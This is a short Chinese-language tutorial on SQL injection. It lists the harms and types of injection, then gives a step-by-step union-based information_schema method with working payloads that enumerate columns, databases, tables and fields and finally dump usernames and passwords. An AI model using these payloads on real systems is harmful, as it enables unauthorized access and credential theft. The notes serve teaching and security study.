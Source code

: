 1.SQL注入
-------

### 危害

#### 1.破坏

- 对数据库增删改查

#### 2.窃取

- 敏感数据
- 提权/写入shell

### 类型

#### 1.按注入点

- 字符型
- 数字型
- 搜索型

#### 2.按提交方式

- get
- post
- cookie

#### 3.执行效果

- 联合
- 报错
- 布尔
- 时间

### 不同形式的注入方式

#### information\_schema注入：

&lt;u&gt;**information\_schema数据库是mysql系统自带的数据库，其中保存着关于mysql服务器所维护的的所有其他数据库的信息，仅在mysql的5.0版本以上支持**&lt;/u&gt;

##### 流程

1. and 1 =1或者and 1=2 或者 or 1=1 测试注入点' and 1=1--
2. order by 数字 排序 判断有几个字段
3. 获取数据库的库名用 union select database() 字段数取第二步的值。例3个字段and 1 = 2' union select database(),user(),0--
4. 获取表名用 union 查询 information\_schema库的tables表的信息and 1 = 2' union select table\_schema ,table\_name,0 from information\_schema.tables where table\_schema='abc'--
5. 获取表的字段名 假设上一步查出有users表用 union 查询 information\_schema库的columns表的信息and 1 = 2' union select table\_name,column\_name,0 from information\_schema.columns where table\_name='users'--
6. 获取字段值 假设上一步查出password字段用 union select users表里 password字段的信息and 1 = 2' union select username,password,0 from users--
